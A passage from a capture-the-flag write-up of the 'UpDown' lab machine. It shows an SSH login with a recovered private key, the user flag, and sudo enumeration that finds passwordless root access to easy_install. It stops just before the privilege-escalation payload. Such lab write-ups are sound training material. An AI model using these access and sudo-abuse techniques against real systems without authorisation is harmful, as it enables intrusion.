 
So the private key should be good enough to get a shell as developer, and it
does:

    
    
    oxdf@hacky$ vim ~/keys/updown-developer
    oxdf@hacky$ chmod 600 ~/keys/updown-developer
    oxdf@hacky$ ssh -i ~/keys/updown-developer developer@siteisup.htb
    ...[snip]...
    developer@updown:~$
    

And the user flag:

    
    
    developer@updown:~$ cat user.txt
    2e025639************************
    

## Shell as root

### Enumeration

developer is able to run `easy_install` as root without a password:

    
    
    developer@updown:~$ sudo -l
    Matching Defaults entries for developer on localhost:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User developer may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/local/bin/easy_install
    

### Exploit easy_install

#### Background

`easy_install` is a now deprecated way to install packages in Python. At it’s
heart, it’s running a `setup.py` script which promises to take certain actions
to install the package.

#### Exploit

Since `easy_install` is effectively running a Python script, getting execution
from it is trivial. There’s a [GTFObins
page](https://gtfobins.github.io/gtfobins/easy_install/) for this with some
copy paste to get shell, but I’ll work through it on my own to better
understand it.

`easy_install` needs an argument to tell if what to install:

    
    
    developer@updown:~$ sudo easy_install
    error: No urls, filenames, or requirements specified (see --help)
    
